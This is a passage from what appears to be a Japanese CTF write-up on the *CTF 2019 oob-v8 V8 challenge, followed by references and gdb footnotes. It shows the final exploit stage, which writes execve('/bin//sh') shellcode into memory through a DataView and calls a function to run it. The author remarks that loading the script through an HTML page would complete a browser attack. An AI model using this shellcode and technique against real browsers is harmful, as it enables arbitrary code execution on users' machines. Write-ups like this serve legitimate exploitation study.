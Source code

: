 ```javascript

let shellcode = [72, 49, 210, 82, 72, 184, 47, 98, 105, 110, 47, 47, 115, 104, 80, 72, 137, 231, 82, 87, 72, 137, 230, 72, 141, 66, 59, 15, 5]

for (let i = 0; i < shellcode.length; i++) {
    dv.setUint8(i, shellcode[i]);
}

// Win!!
f();
```

## Flag

ローカルでシェル取っただけなので、厳密にはブラウザでjsを読み込む必要があるこの問題を解いたとは言えない (とは言っても単にscriptタグのsrcで読み込むhtmlを用意すれば良いだけだが)

## References

- [Exploiting v8: \*CTF 2019 oob-v8](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/)
- [\*CTF 2019 - oob-v8 - Binary Exploitation](https://ir0nstone.gitbook.io/notes/types/browser-exploitation/ctf-2019-oob-v8): ビルド手順に関して一番参考になった
- mapについて
	- [.:: Phrack Magazine ::.](http://www.phrack.org/issues/70/9.html): 今回は登場しないJITを利用するエクスプロイトの説明だが、mapについての説明がある
	- [katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=70): 70ページから
	- [V8のHidden Classの話](https://engineering.linecorp.com/ja/blog/v8-hidden-class)

---

[^1]: gdbで`p/f 0x11c27c950589`を実行した

[^2]: 実際には浮動小数点数に変換して代入する
